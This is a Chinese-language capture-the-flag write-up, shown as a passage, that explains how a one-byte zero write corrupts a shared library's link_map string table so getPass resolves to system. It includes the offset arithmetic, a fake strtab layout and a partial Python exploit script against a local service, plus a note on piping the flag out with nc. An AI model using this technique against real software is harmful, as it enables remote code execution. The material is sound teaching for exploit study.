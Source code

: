 正好程序在初始化时会把content中的每个键值对保存全局数组`qword_40C0`中，例如content是

```html
a=b&a=c&a=d&a=e&a=f
```

内存布局是

![image-20240628113748771.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-2905b89273653b491a47eb70b9a16c63b0124b23.png)

所以我们需要让`0x7fb7407f0408`指向全局数组`qword_40C0`。

### 地址计算

首先需要计算溢出的缓冲区到`link_map+0x68`的偏移。

为了能够解析任意函数，我们需要找一个**在利用漏洞之后还未解析的且第一个参数可控的函数（system第一个参数）**，越界写0之后未解析的函数只有一个`getPass`在`libctf.so`中，我们可以查看`libctf.so`的内存布局

![image-20240630195335587.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-5c7e760097cf6955d1cb51a352f22b28d84352ae.png)

`0x7f148fd5e1e0`就是`libctf.so`的`link_map`的地址，计算全局变量`dest`到`0x7f148fd5e1e0+0x68`偏移得到`0x125f48`。因为我们只能改一个0，所以只能把第三个字节改成0，偏移加上2得到`0x125f4a`。

低12位的地址不会随ASLR变化，`l->l_info[DT_STRTAB]`的低12位是`0xea0`，为了保证命中，需要在`qword_40C0`中布局，使`0x*ea0+8`（+8是因为`l->l_info[DT_STRTAB]`指向的内存第一个是一个整数，第二个才是strtab指针）的位置放置伪造的`strtab`。

伪造的`strtab`中，可以复制一份`libctf.so`原来的`strtab`，把其中的`getPass`改成`system`，同时保证其他字符串偏移与原来相同。

剩下的就交给爆破。

exp
---

exp中构造指针数组时我是`&0xffff`保证低16位相同，实际只要`&0x0fff`保证低12位就行。

题目给了两个端口，可以执行命令后用nc把flag读到另一个端口。

```python
import requests

ip = "127.0.0.1"
port = 8888

overflow_start_addr =  0x7fbfd7002000 +0x14300
link_map_0x68 = 0x7fbfd713c248
ptr_arr_addr =  0x7fbfd7002000  + 0x40C0
real_strtab_addr = 0x7fbfd701aea0

# set least 3 byte to 0
strtab_pad = link_map_0x68 - overflow_start_addr + 2

fake_strtab = "%00__gmon_start__%00_ITM_deregisterTMCloneTable%00_ITM_registerTMCloneTable%00__cxa_finalize%00checkLogin%00genCookie%00getPass%00strcmp%00printf%00libctfc.so%00libc.so.6%00GLIBC_2.2.5%00%00"
fake_strtab = fake_strtab.replace("%00getPass%00", "%00system%00".ljust(len("%00getPass%00"),'a'))

def cons_ptr_arr():
    least_2_bytes = real_strtab_addr&0xffff
    re = ""
    offset = ptr_arr_addr
    for i in range(0x2000):
        if (offset-8)&0xffff == least_2_bytes:
            re += fake_strtab
            break
        else:
            re +="a=b"
        offset += 8
        re += '&'
```